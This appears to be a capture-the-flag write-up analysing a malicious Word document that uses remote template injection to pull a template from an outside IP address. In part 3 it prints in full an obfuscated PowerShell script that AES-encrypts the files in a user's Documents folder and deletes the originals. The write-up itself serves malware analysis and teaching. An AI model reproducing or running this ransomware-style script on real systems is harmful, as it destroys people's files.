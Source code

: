 ## Antediluvian 1
First thing to check, upload the file to [VirusTotal](https://www.virustotal.com/gui/file/28dca7f3b0a2e3796506356cb4cf50461f59534f7b919806440de09e586240f8).
Under the behaviour tab, we see that it attempts to contact the following ip address.
![](attachments/Pasted%20image%2020230228174714.png)

`Flag: IDEH{46.101.156.218}`

## Antediluvian 2
From the previous screenshot, we can see that it attempts to get the file `template.dot`, and when looking at the contents of the `word/_rels/settings.xml.rels` file, we see that it attempts to use this file as a template for our word document.
![](attachments/Pasted%20image%2020230228175512.png)
This type of attack is called **remote template injection**, where our document uses a template that contains malicious code and the user finds seemingly no macro in the original document.

`Flag: IDEH{remote_template_injection}`

## Antefiluvian 3
This document attempts to run a base64 encoded powershell script.
![](attachments/Pasted%20image%2020230228175736.png)

```powershell
&("{1}{2}{0}"-f'm','sE','t-itE')  VarIabLe:xoH6 ( [tYPe]("{0}{2}{3}{4}{1}"-F'SYS','veRT','TE','m','.cOn') ) ;    $h0S  =[TYPe]("{4}{0}{3}{2}{1}"-f 'e','pAtH','iO.','M.','Syst') ;   .("{0}{1}" -f'SE','t')  birc0  ([type]("{3}{2}{0}{1}" -f 'tEXT.enCODIN','g','tem.','sYs')  ) ;   .('Sv') SHvzi2 (  [TYpe]("{3}{4}{1}{7}{2}{6}{10}{0}{9}{5}{8}"-F'E','rITy.crYpTogRaPHy','ci','Sy','STem.SECU','mod','P','.','E','R','h')  );  .("{0}{1}{3}{2}" -f's','ET-','aRIaBLE','v') ('I'+'hQ')  ([tYpe]("{5}{7}{3}{0}{4}{8}{2}{1}{6}" -f '.c','DDiNGM','a','eCURitY','rYpToGrAPHy','S','OdE','ystEM.s','.P') );  $m5iXC=  [TYpE]("{4}{1}{5}{11}{10}{6}{7}{0}{9}{12}{2}{3}{13}{8}"-F'Pt','Em','yp','TO','sYST','.','.cR','y','odE','OGRaph','RitY','SEcu','y.cr','sTrEamM') ; &("{1}{0}"-f'Em','SeT-It') vARIable:30vlP5 ([Type]("{1}{3}{4}{2}{0}"-F'.iO.fiLE','sy','M','s','te'))  ;${eNc`RYp`TeD} = ("{3}{1}{2}{0}" -f '=','ZGV','vQmZ','1NUNBVG','lvb','l8xU','19ub','zdf','cDRJT','g==')
${k`ey} =   (.("{3}{1}{2}{0}" -f 'IABle','ET-vA','R','g') ('biRc'+'0') -VALueonL  )::"U`Tf8"."g`ET`strINg"( $xOH6::("{1}{2}{0}{3}"-f 'o','F','r','mBase64String').Invoke(${enc`RyPt`eD}))
${P`Ath} = ((("{2}{9}{7}{8}{6}{0}{10}{13}{5}{11}{4}{12}{3}{1}" -f 'ment','ej','C','tedz','nf','ej','ocu','erszejc3p0zej','D',':zejUs','s','i','ec','z'))  -cREPlACE'zej',[Char]92)


${F`il`epAThs} = &("{0}{4}{2}{3}{1}"-f'Get-','tem','hil','dI','C') -Path ${p`ATH} -File

foreach (${f`il`EP`Ath} in ${Fil`e`PathS}) {
    ${En`C`RYpT`EdF`ILep`ATH} =   $H0s::("{4}{1}{3}{0}{2}" -f'ensi','eEx','on','t','Chang').Invoke(${f`iL`EpaTh}."fUl`LN`AMe", ("{1}{2}{3}{0}"-f 'd','encr','y','pte'))
    ${cO`Nten`TB`ytEs} =   ( .("{3}{2}{1}{0}"-f'E','L','vArIAb','GET-') ("30vL"+"p5")).ValUe::("{2}{3}{0}{1}" -f'lB','ytes','Re','adAl').Invoke(${fIl`ePa`Th}."fu`lLNa`Me")
    ${K`EYByT`ES} =   (&("{2}{1}{0}" -f'Ble','iA','VaR') BIRc0  -VA  )::"UT`F8".("{1}{0}" -f's','GetByte').Invoke(${P`Assw`ORd})
    ${iV`BY`Tes} =   ( &("{1}{0}{2}" -f'ldi','CHi','TeM') VarIable:BirC0 ).VALUe::"UT`F8".("{1}{0}{2}"-f'tByt','Ge','es').Invoke(("{3}{0}{2}{1}"-f'789','EF','ABCD','0123456'))
    ${A`Es} = .("{0}{1}{2}"-f 'Ne','w-Obje','ct') ("{1}{0}{6}{4}{2}{3}{5}{7}"-f 'stem.S','Sy','ryptogr','aph','urity.C','y.AesManage','ec','d')
    ${A`eS}."k`Ey" = ${k`ey`ByTeS}
    ${a`es}."I`V" = ${IVbY`TES}
    ${a`eS}."M`ODE" =  ( .("{1}{2}{0}" -f'LDiTeM','G','Et-cHi')  vaRiaBLe:SHvzI2  ).value::"c`BC"
    ${a`Es}."pa`dd`INg" =  $iHq::"p`kcS7"
    ${E`NC`RYpToR} = ${a`es}.("{2}{1}{3}{0}" -f 'or','y','CreateEncr','pt').Invoke()
    ${MSe`NCr`YpT} = .("{1}{2}{0}"-f'ect','New-O','bj') ("{1}{0}{2}{5}{6}{3}{4}" -f 'IO','System.','.Me','tre','am','mor','yS')
    ${Cs`enCRY`pT} = .("{0}{1}{2}"-f'New','-O','bject') ("{2}{0}{3}{4}{1}{6}{7}{8}{5}"-f'ystem.Se','.Cr','S','cur','ity','eam','ypto','graphy.Cryp','toStr')(${msEn`CR`ypT}, ${EnC`RY`PToR},   (  .("{1}{0}{2}"-f'ild','ch','ITEM')  ('vARIabl'+'e:m'+'5Ix'+'c') ).VALuE::"wRI`Te")
    ${C`seNcrY`pT}.("{0}{1}" -f'W','rite').Invoke(${co`Nten`TbY`Tes}, 0, ${Co`NTEnTbYT`eS}."le`NgTH")
    ${CsEN`CRY`pT}.("{4}{2}{1}{3}{0}"-f 'lock','Fin','ush','alB','Fl').Invoke()
    ${E`N`cR`Yp`TedBYtes} = ${MS`e`NCRYPT}.("{1}{2}{0}" -f'ray','ToA','r').Invoke()
      (  .("{1}{0}{2}"-f'ITE','cHILD','M') VarIAbLe:30vlp5  ).vALue::("{2}{0}{3}{1}{4}" -f'rit','llByte','W','eA','s').Invoke(${e`Ncr`yp`TEdfILepath}, ${EncrY`pTEDB`yt`es})
    &("{1}{0}{3}{2}" -f'e','R','m','move-Ite') ${F`i`LEpaTh}."fULLn`A`Me"
}
```

As we can see, the script is heavily obfuscated. However, there's one variable which can lead us to the flag, $path.
We can deobfuscate the script manually, or just by running it in a sandbox.
![](attachments/Pasted%20image%2020230228180004.png)
For now, all we need is the path.
![](attachments/Pasted%20image%2020230228183840.png)

We can see that it attempts to access a path that doesn't exist, hence the error

`Flag: IDEH{C:\Users\c3p0\Documents\infected\}`


## Antediluvian 4
The obfuscated code contains many variables ($key, $path, $m5iXC, etc.). However looking at one variable $encrypted 
```powershell
${eNc`RYp`TeD} = ("{3}{1}{2}{0}" -f '=','ZGV','vQmZ','1NUNBVG','lvb','l8xU','19ub','zdf','cDRJT','g=='
```
If we simply concatenate its parts together disregarding the format operator, we get the following string `ZGVvQmZ1NUNBVGlvbl8xU19ubzdfcDRJTg==` which is base64 encoded `deoBfu5CATion_1S_no7_p4IN`

`Flag: IDEH{deoBfu5CATion_1S_no7_p4IN}`